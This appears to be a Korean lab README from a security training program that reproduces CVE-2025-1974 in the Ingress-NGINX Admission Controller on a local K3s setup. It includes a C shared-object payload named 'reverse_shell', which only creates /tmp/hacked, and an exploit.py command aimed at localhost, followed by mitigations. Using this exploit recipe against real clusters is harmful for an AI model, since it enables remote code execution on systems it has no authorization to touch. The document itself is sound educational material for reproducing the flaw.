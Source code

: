 # CVE-2025-1974
> 화이트햇 스쿨 3기 - [김소은 (@salt318)] (https://github.com/salt318/kr-vulhub)

### 요약

- 쿠버네티스의 핵심 보안 메커니즘인 Ingress-NGINX Admission Controller의 결함으로 인해 발생
- Ingress-NGINX Admission Controller는 인증 없이 네트워크에 노출된다는 문제 존재
- 이로 인해 공격자가 악성 AdmissionReview 요청을 조작하여 Ingress 리소스에 무단 구성을 삽입할 수 있음
- 다른 취약점과 연계될 경우 원격 코드 실행 가능 (CVE-2025-24514, CVE-2025-1097 또는 CVE-2025-1098)


### 환경 구성 및 실행
- `docker compose up -d`를 실행하여 테스트 환경을 실행 (K3s 기반 Kubernetes 환경)
- `gcc -shared -fPIC -o shell.so shell.c` 악성 쉘 코드를 컴파일
  ```
  #include<stdio.h>
  #include<stdlib.h>

  __attribute__((constructor)) static void reverse_shell(void)
  {
    system("touch /tmp/hacked");
  }
  
  ```
- 아래의 명령어를 통해 취약점 악용
  ```
  python exploit.py -a https://localhost:30443/networking/v1/ingresses -i http://localhost:30080/fake/addr -s shell.so
  ```
### 실행 결과
![CVE-2025-1974](https://github.com/salt318/CVE-2025-1974/blob/main/CVE-2025-1974.png)

### 정리
Ingress-NGINX Admission Controller의 인증 부재 취약점은 악성 Ingress 리소스를 삽입하거나 시스템을 제어하는 행위를 가능하게 하며, 다른 취약점과 연계될 경우 원격 코드 실행(RCE)로 이어질 수 있다. 따라서 Admission Controller 접근에 대한 인증 및 권한 검증 강화, Ingress 리소스 검증 로직 강화, 네트워크 ACL(Access Control List) 설정을 통한 외부 접근 차단 등의 보안 조치를 적용해야 한다.
